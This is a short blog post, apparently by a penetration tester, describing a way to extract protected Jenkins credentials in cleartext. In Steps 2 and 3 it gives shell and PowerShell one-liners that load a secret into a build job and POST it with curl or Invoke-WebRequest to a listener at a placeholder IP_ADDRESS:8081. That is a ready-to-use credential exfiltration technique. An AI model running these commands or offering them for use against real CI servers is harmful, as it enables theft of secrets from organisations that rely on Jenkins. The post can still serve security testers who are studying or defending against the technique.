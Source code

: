 ```yaml
---
layout: post
title: Dumping Jenkins credentials
excerpt_separator: <!--more-->
---
```


A very dumb way to access Jenkins protected credentials which I have not found documented anywhere.


<!--more-->

You will need:

- A user logged in the web panel who can use a credential in a Jenkins task

- A listener in an IP address reachable from the Jenkins master node. Perfect candidates are Jenkins slaves or the master node.

I found this technique very useful for a project where some credentials were not correctly decrypted using typical tools such as [https://github.com/hoto/jenkins-credentials-decryptor](https://github.com/hoto/jenkins-credentials-decryptor) which extract these values from the files credentials.xml, master.key and hudson.util.Secret.

<br>

### Step 1: Use secret text(s) or file (s)

Create a task and include the credential as a variable named "TEST" checking "Use secret text(s) or file (s)" in the Environment section:

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/jenkinscredentials/Screenshot_1.png)

<br>

### Step 2: Execute command line (shell) in Build Steps

Next, check "Execute command line (shell)" in Build Steps section. The trick is creating a POST request to the IP address reachable from the node and using the credential (an environmental variable) as body. Here you have two options, if the credential is a string you can use something like this:

```
whoami; ip a; curl http://IP_ADDRESS:8081/ --data-binary '{"body": "'"$TEST"'."}'
```

If the credential is a file you can create a second dummy environmental variable like this:

```
whoami; ip a; TEST2=$(cat "$TEST"); curl http://IP_ADDRESS:8081/ --data-binary '{"body": "'"$TEST2"'."}'
```

![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/jenkinscredentials/Screenshot_2.png)

The "whoami; ip a;" part is not necessary but you can use something like this to check the task is executed correctly even if step 3 fails. And you can use the port you prefer and not 8081.

In this example the Jenkins master node is a Linux system, but I guess something similar can be used in Windows using Powershell (please notice I did not test these next lines :) ):

```
$TEST2 = Get-Content $TEST -Raw
$postParams = @{credential=$TEST2;}
Invoke-WebRequest -Uri http://IP_ADDRESS:8081 -Method POST -Body $postParams
```

<br>

### Step 3: Set up a listener and (hopefully) receive the credential in cleartext

Finally, set up a listener and run the task, you should get the credential: 

![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/jenkinscredentials/Screenshot_3.png)


<br>
